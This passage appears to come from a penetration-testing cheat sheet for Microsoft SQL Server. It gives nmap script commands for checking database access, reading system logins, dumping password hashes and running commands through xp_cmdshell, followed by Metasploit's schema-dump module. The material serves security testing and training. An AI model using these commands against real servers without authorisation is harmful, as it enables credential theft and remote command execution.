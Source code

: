 #### 2.5.2 - Database Access

`$ nmap -p 1433 --script ms-sql-hasdbaccess --script-args mssql.username=<username>,mssql.password=<password> <IP>`

### 2.6 - SQL Queries

#### 2.6.1 - System Logins

`$ nmap -p 1433 --script ms-sql-query --script-args mssql.username=<username>,mssql.password=<password>,ms-sql-query="SELECT * FROM master..syslogins" <IP>`

### 2.7 - Hashdump

`$ nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=<username>,mssql.password=<password> <IP>`

### 2.8 - XP_Cmdshell

`$ nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<username>,mssql.password=<password>,ms-sql-xp-cmdshell="<commands>" <IP>`

## 03 - Metasploit

### 3.1 - Database

#### 3.1.1 - Schema

```
msf > use auxiliary/scanner/mssql/mssql_schemadump

msf auxiliary(scanner/mssql/mssql_schemadump) > options

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   DISPLAY_RESULTS      true             yes       Display the Results to the Screen
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                yes       The number of concurrent threads (max one per host)
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(scanner/mssql/mssql_schemadump) > set rhosts <IP>

msf auxiliary(scanner/mssql/mssql_schemadump) > set username <username>

msf auxiliary(scanner/mssql/mssql_schemadump) > set password <password>

msf auxiliary(scanner/mssql/mssql_schemadump) > run
```
